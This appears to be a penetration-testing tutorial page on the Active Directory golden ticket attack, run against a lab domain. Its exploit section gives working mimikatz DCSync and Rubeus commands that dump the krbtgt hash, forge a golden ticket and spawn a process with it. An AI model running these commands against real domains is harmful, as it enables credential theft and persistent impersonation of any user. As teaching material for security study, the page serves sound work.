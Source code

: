 # Golden Tickets

A golden ticket is a type of attack where an attacker forge the TGT with a lifetime that does not expire. In essence, the attacker gains long-term access to a network by creating a TGT that appears to be legitimate. The golden ticket is signed by the krbtgt account thus it can be use to impersonate any user to any services or any machines within the domain.

### Attack Prerequisites

* Domain admin privilege
* Access to krbtgt password hash

### Purpose of Golden Ticket

The golden ticket attack is a post exploitation attack where an attacker has already compromise the domain admin account. It is primarily **used for host persistence** instead of privilege escalation.

With a golden ticket, attacker can persistently impersonate any user within the domain even if the compromised domain admin account credentials are updated or revoked.

### Exploit

```shell
mimikatz # lsadump::dcsync /domain:santaa.com /user:SANTAA\krbtgt
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/v5I2Hj6WU16k05UG-image.png" alt=""><figcaption></figcaption></figure>

```shell
Rubeus.exe golden /aes256:[aes256_hmac] /user:"hui ann" /domain:santaa.com /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/tJTOwLeDDEw2mbWl-image.png" alt=""><figcaption></figcaption></figure>

```shell
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:santaa /username:"hui ann" /password:ahahaa /ticket:[your ticket]
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/P9ycWqg18FAX29wo-image.png" alt=""><figcaption></figcaption></figure>

The process is successfully created:

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/e5P6sk7cofmJbqlu-image.png" alt=""><figcaption></figcaption></figure>
